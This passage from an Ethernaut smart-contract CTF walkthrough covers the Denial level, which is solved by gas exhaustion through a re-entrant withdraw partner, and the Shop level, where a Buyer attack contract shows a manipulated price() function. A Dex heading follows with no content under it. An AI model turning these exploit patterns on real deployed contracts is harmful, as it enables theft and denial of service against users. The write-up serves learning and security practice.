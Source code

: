 ```
        IDenial(levelInstance).setWithdrawPartner(address(this));
    }
}
```

This level needs to prevent other people from withdrawing ether from the fund, that is, to prevent the withdrawal function from running. 

Looking at the level code, you can see that in the withdraw function, there is the following code: `partner.call.value(amountToSend)("");`

The partner in the code can be set through the `setWithdrawPartner` function above. Therefore, as long as the partner is set as the smart contract address, you can use `Re-entrancy` to repeatedly call the withdraw function in another contract until the gas is used up and the function cannot continue to execute. 


# 21. [Challenge 21: Shop](https://ethernaut.openzeppelin.com/level/0x3aCd4766f1769940cA010a907b3C8dEbCe0bd4aB)

Tasks:
- Сan you get the item from the shop for less than the price asked?

**Solution:** \
Attack Payload:
```
pragma solidity ^0.7.0;

contract Buyer {
    address levelInstance;

    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }

    function price() public view returns (uint256) {
        return Shop(msg.sender).isSold() ? 0 : 100;
    }

    function attack() public {
        Shop(levelInstance).buy();
    }
}
```
we created our own implementation of the `price()` method because the building references an instance of `Buyer(msg.sender)`, our `Buyer` contract can be that reference, meaning our own `price()` method can be used to return whatever we want to fulfull this level's requirements.




# 22. [Challenge 22: Dex](https://ethernaut.openzeppelin.com/level/0x0b0276F85EF92432fBd6529E169D9dE4aD337b1F)

